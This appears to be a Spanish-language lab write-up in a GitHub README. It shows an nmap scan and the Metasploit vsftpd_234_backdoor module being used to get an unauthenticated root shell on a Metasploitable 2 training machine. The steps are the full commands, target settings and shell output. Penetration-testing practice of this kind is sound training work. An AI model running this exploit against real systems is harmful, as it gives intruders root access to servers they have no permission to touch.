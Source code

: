 # Explotación de vsftpd 2.3.4 Backdoor (Metasploitable 2)

## 🖥️ Información del objetivo

- **IP del objetivo:** `192.168.1.149`
- **Sistema vulnerable:** Metasploitable 2
- **Puerto vulnerable:** `21/tcp`
- **Servicio:** FTP
- **Versión:** vsftpd 2.3.4

## 🔍 Escaneo con Nmap

```bash
nmap -sV -sC -Pn -oN 192.168.1.149_scan.txt 192.168.1.149

Resultado relevante:

21/tcp open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

⚙️ Explotación con Metasploit
1. Abrimos Metasploit
msfconsole

2. Cargamos el exploit
use exploit/unix/ftp/vsftpd_234_backdoor

3. Configuramos el objetivo
set RHOST 192.168.1.149
run

4. Resultado:
[*] 192.168.1.149:21 - Banner: 220 (vsFTPd 2.3.4)
[+] 192.168.1.149:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.149:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened

¡Se obtiene acceso como root! 🎉

✅ Conclusión
El servicio FTP vsftpd 2.3.4 contiene una puerta trasera que permite obtener acceso remoto como root sin autenticación.

📷 Capturas.

### 🎯 Lanzamiento de Metasploit:

![Lanzamiento de Metasploit](evidencias/Metasploit_Lanzamiento.png)

### 🔍 Escaneo con Nmap:

![Escaneo Nmap](evidencias/Escaneo_con_nmap.png)

### 🎉 Shell como root obtenida:

![Shell como root](evidencias/Shell_root.png)